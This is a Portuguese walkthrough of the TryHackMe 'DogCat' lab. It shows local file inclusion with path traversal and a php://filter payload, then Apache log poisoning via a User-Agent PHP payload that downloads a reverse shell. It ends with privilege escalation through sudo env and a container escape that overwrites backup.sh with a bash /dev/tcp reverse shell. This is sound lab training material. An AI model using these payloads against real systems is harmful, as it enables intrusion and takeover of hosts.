 # TryHackMe - DogCat

**Índice**

Lista de verificação:

- [ ]  Iniciar VPN TryHackMe
- [ ]  Varredura de Portas com “nmap -A [IP]”.
- [ ]  Verificar código-fonte da página.
- [ ]  Verificar se PHP está em execução.
- [ ]  Verificar a necessidade de encodar URL para RCE ou LFI
- [ ]  Verificar requisições no BurpSuite

## Sobre

Resolução da Room DogCat - TryHackMe.

## Informações

[https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Execução

Iniciamos um PortScan com `nmap -A [IP]` no HOST:

![Captura de tela de 2023-06-28 21-03-29.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F169bdeda-d689-4b77-a7d6-cb9103324a11%2FCaptura_de_tela_de_2023-06-28_21-03-29.png?table=block&id=66e67b11-e308-4770-b1d5-46bbe43a1460&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1520&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

O site contém 2 botões “**A dog”** e “**A cat**”, e o código-fonte aparentemente executa um arquivo PHP de acordo com o botão pressionado.

![Captura de tela de 2023-06-28 21-06-49.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F913816dc-a55e-46bb-835b-98bfc645b5ad%2FCaptura_de_tela_de_2023-06-28_21-08-21.png?table=block&id=3d4dc508-7262-4f73-be26-6e15ca6eefb4&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1870&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

![Captura de tela de 2023-06-28 21-08-21.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F913816dc-a55e-46bb-835b-98bfc645b5ad%2FCaptura_de_tela_de_2023-06-28_21-08-21.png?table=block&id=3d4dc508-7262-4f73-be26-6e15ca6eefb4&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1870&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Nesse caso podemos fazer um “teste” PHP adicionando um carácter no ***`/?view=dog`***

![Captura de tela de 2023-06-28 21-11-11.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fea73b92c-85a6-4ccb-9f55-95f28ec670a7%2FCaptura_de_tela_de_2023-06-28_21-11-11.png?table=block&id=e3bb71c1-6020-4e85-a28f-6c7ad482ba91&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1690&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Como esperado ele diz não poder encontrar o arquivo ***dog*.php*** para executar a função *`include()`.*

Aqui podemos esperar um possível RCE. Podemos usar a URL para navegar e executar arquivos PHP, para teste podemos tentar fazer a mesma coisa para ***cat*** e ***index***. Nesse caso específico, “dog” é como se fosse um argumento necessário para “bypassar” a função `include()`, para depois fazermos o “parse” utilizando **`/../`**

> *No contexto da exploração de uma vulnerabilidade RCE/LFI, pode-se usar 
"http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index" para contornar restrições impostas pelo site.*
> 

No caso do ***`index.php` ,***durante a requisição ele espera alguma constante a ser declarada.

![Captura de tela de 2023-06-28 21-23-27.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F10819adb-773c-4b9f-85c5-8c0572132cc3%2FCaptura_de_tela_de_2023-06-28_21-23-27.png?table=block&id=1ce05873-9af0-45ea-946c-b3b1f8c3125e&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1620&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

![Captura de tela de 2023-06-28 21-23-36.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F8abcda3f-5a59-4f0c-8326-21de5c8da8b5%2FCaptura_de_tela_de_2023-06-28_21-23-36.png?table=block&id=3b85ab11-b009-46f4-baf8-189bd7d83e78&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1620&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Sabemos que conseguimos executar arquivos .php em `/var/www/html/` , sendo assim podemos tentar fazer a leitura de alguns arquivos do sistema/servidor.

Para conseguimos ter acesso a algum arquivo, temos que ter em mente a navegação via terminal por diretorios linux. Sabemos que nossa base é `?view=dog/../`  e estamos no diretório `/var/www/html/` então usamos `../../../` para irmos ao diretório raíz (/) , e a partir daí buscar nosso arquivo.

Após escolher o arquivo (aí tem que saber a localização de cabeça rs), pedimos para que seja escrito na tela com o **&ext=**  `[IP]/?view=dog/../../../../etc/passwd&ext`= .

### Porque **ext**?

Após verificar o `**dog.php**` usando filtro para imprimir o código em **BASE64** `?view=php://filter /convert.base64-encode/resource=` em `dog/../index` podemos verificar o seguinte código:

---

```php
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>
</html>
```

---

No trecho `$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';` podemos ver que é adicionado **.php** ao final do que estiver na string mencionada. Nesse caso ao digitar **dog&ext,** estamos querendo dizer **dog.php**

---

![Captura de tela de 2023-06-28 22-11-09.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9149f378-f263-4694-b582-b905bb56432c%2FCaptura_de_tela_de_2023-06-28_22-11-09.png?table=block&id=7db1a7a1-809c-4698-84bc-4606747bbd60&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1620&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

---

Sabendo que conseguimos ler arquivos, podemos fazer um **LogPoison** ([link](https://rodolfomarianocy.medium.com/aprenda-a-fazer-log-poisoning-em-ssh-e-apache-via-lfi-65f08a2f7d1d)).

> *Trata-se de sujar logs de serviços e através de RCE e forçar uma execução e uma resposta vinda do servidor, como uma execução de código remoto que vai interpretar e executar nosso código PHP malicioso.*
> 

Em primeiro lugar, sabemos que o serviço WEB que roda neste host é um **Apache**, por padrão o diretório de logs fica localizado em `var/log/apache2/access.log` , e para acessar podemos usar `[IP]/?view=dog/../../../../../../../var/log/apache2/access.log&ext=` 

---

![Captura de tela de 2023-06-28 22-40-58.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fb7bc6b75-4dda-4d6b-b5f9-cac9328b6208%2FCaptura_de_tela_de_2023-06-28_22-40-58.png?table=block&id=deda7b78-f06d-4cdc-b611-cd6f238a676e&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1620&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

---

Agora podemos testar o log, dando um comando qualquer em `?view=` . Neste caso digitei **ls -la** e observando o código-fonte da página, podemos ver uma nova requisição armazenada no `access.log` .

![Captura de tela de 2023-06-29 19-58-33.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F871b94d0-cacd-4fc2-9993-89f683640da0%2FCaptura_de_tela_de_2023-06-29_19-58-33.png?table=block&id=d0cf7f72-840f-4e71-a541-0b4fb0e27407&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=2000&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

O log armazena IP, DT/HR, o tipo de requisição, caminho, e o **UserAgent**. Aqui podemos injetar um arquivo PHP malicioso para obtermos uma SHELL Reversa. ([link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php))

Após configurar devidamente o shell.php, inicio um serviço “WebHTTP” utilizando o Python3:
`sudo python3 -m http.server 80`

E utilizando o BurpSuite, altero o **UserAgent** da requisição do Access.log para o seguinte:

`<?php file_put_contents('shell.php',file_get_contents('http://[IP]/shell.php'))?>`

![Captura de tela de 2023-06-29 20-17-40.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F100ef9b7-ceb1-496e-899f-e4448eaa7776%2FCaptura_de_tela_de_2023-06-29_20-17-40.png?table=block&id=319611d5-d525-4ed1-85d0-0a5ee4619467&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1890&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

---

Nesse momento nosso serviço Web confirma o acesso ao arquivo.

![Captura de tela de 2023-06-29 20-38-22.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F8f601904-40e6-474e-9aef-7201b44fbed1%2FCaptura_de_tela_de_2023-06-29_20-38-22.png?table=block&id=885bf728-3760-40b5-91e0-442faf2120cf&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1890&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Agora é só obter a Shell Reversa com o host. Podemos fazer isso usando o NetCat: 

`nc -nlvp 5555`

E pronto! Temos acesso ao Host com sucesso!

![Captura de tela de 2023-06-29 20-40-28.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Feb69d902-d78d-4ea0-889b-f448fb08e05d%2FCaptura_de_tela_de_2023-06-29_20-40-28.png?table=block&id=d67d071b-2d11-40ab-a990-69b9eb01abdd&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1890&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Utilizando o comando `find / -name **flag** 2>/dev/null` , podemos começar a encontrar as Flags.

![Captura de tela de 2023-06-29 20-47-12.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd424e399-02a7-4e97-8d13-bfd36a56b417%2FCaptura_de_tela_de_2023-06-29_20-47-12.png?table=block&id=47e20a8e-f905-48b7-8e4a-02937acbe49e&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1890&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Ok, agora vamos ver o que nosso usuário pode executar …

![Captura de tela de 2023-06-29 20-50-26.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Ff5edddd2-0216-4796-b6bd-72e9b72ccf23%2FCaptura_de_tela_de_2023-06-29_20-50-26.png?table=block&id=bb743f5b-c90f-430d-adb3-18731f88377f&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1890&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Ótimo! podemos executar o env como superusuario sem a necessidade de senha. Para facilitar, podemos acessar o GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para pesquisar os comandos.

![Captura de tela de 2023-06-29 20-52-39.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd37d3efc-6af6-4f42-b577-6615693b5889%2FCaptura_de_tela_de_2023-06-29_20-52-39.png?table=block&id=7e611fd4-7343-43d2-926b-10fd0ff16d60&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1690&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

---

![Captura de tela de 2023-06-29 20-53-37.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F646945d4-91f1-4f53-86fb-0b1fce9bba3e%2FCaptura_de_tela_de_2023-06-29_20-53-37.png?table=block&id=ee2869b6-f2f8-40b3-ad48-f87c0327b241&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1010&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Finalmente! Como ROOT tudo fica mais fácil. Agora podemos terminar nossa ROOM encontrando as FLAGS restantes usando o mesmo comando que antes (`find / -name **flag** 2>/dev/null`), só que agora como ROOT.

### E a Flag4?!

Boa pergunta rs

Precisei colar de um Walkthrough do canal “[Optional](https://www.youtube.com/watch?v=zGDbi15Jkqw)” no YouTube, e lá ele mostra um arquivo em `/opt/backups/backup.tar`

Pelo que entendi esse é um container Docker. E pela última modificação do arquivo, ele deve ser executado frequentemente. Então seguindo os passos do “Optional”, como ROOT, sobrescrevi o `backup.sh` usando o comando echo e tive que aguardar uns minutinhos:

`echo -e "#!/bin/bash\nbash -i >& /dev/tcp/10.13.5.224/5555 0>&1" > backup.sh`

![Captura de tela de 2023-06-29 21-25-30.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fb6f447d8-5b17-4fa5-8ed0-bdd5febcdc4a%2FCaptura_de_tela_de_2023-06-29_21-25-30.png?table=block&id=77d6100e-ac66-4b0f-b338-ff6607359d47&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1510&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

---

E por fim a Flag4 !

---

![Captura de tela de 2023-06-29 21-26-07.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F0be82a9a-1f38-461a-a567-59dabce4f88b%2FCaptura_de_tela_de_2023-06-29_21-26-07.png?table=block&id=5f4797aa-0aa0-4b46-8519-acd29791ffec&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1510&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

---

Obrigado por ler, espero que tenha aprendido alguma coisa :)
